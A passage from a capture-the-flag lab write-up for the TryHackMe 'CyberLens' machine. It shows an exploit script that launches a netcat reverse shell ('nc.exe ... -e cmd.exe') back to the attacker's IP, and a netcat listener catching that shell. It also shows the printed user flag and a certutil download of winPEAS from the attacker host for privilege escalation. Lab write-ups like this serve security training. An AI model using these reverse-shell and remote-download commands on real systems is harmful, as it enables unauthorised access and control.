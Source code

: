 Now we execute the [Exploit](../../3%20-%20Tags/Hacking%20Concepts/Exploit.md) :

```
┌──(mdn0x㉿mdn0xKali)-[~/THM/CHALLENGES/Easy/Cybelens]
└─$ python3 exploit.py cyberlens.thm 61777 "C:/Users/Public/nc.exe 10.8.162.183 1337 -e cmd.exe"

```

And we check [Netcat](../../3%20-%20Tags/Hacking%20Tools/Netcat.md) listener :

```
┌──(mdn0x㉿mdn0xKali)-[~/…/CHALLENGES/Easy/Cybelens/web-server]
└─$ nc -lvnp 1337 
listening on [any] 1337 ...
connect to [10.8.162.183] from (UNKNOWN) [10.10.60.241] 49859
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
cyberlens\cyberlens

```

Boom we have it .

Now we go to Desktop through `cd` and `dir` and catch the first with `type` :

```
C:\Windows\system32>cd C:/Users/CyberLens/Desktop
cd C:/Users/CyberLens/Desktop

C:\Users\CyberLens\Desktop> type user.txt
type user.txt
THM{T1k4-CV3-f0r-7h3-w1n}

```

## Privilege Escalation

### WinPEAS

We can use [WinPEAS](../../3%20-%20Tags/Hacking%20Tools/WinPEAS.md) to auto find potential vectors for the [Privilege Escalation](../../3%20-%20Tags/Hacking%20Concepts/Privilege%20Escalation.md) we have to transfer the executable from our machine to the target machine :

```
C:\Users\CyberLens\Desktop>certutil -urlcache -f http://10.8.162.183:80/winPEASx86.exe C:\Users\CyberLens\Desktop\winPEASx86.exe
certutil -urlcache -f http://10.8.162.183:80/winPEASx86.exe C:\Users\CyberLens\Desktop\winPEASx86.exe
****  Online  ****
CertUtil: -URLCache command completed successfully.

C:\Users\CyberLens\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is A8A4-C362

 Directory of C:\Users\CyberLens\Desktop

07/12/2025  11:11 AM    <DIR>          .
07/12/2025  11:11 AM    <DIR>          ..
06/21/2016  03:36 PM               527 EC2 Feedback.website
06/21/2016  03:36 PM               554 EC2 Microsoft Windows Guide.website
06/06/2023  07:54 PM                25 user.txt
07/12/2025  11:11 AM        10,156,032 winPEASx86.exe
               4 File(s)     10,157,138 bytes
```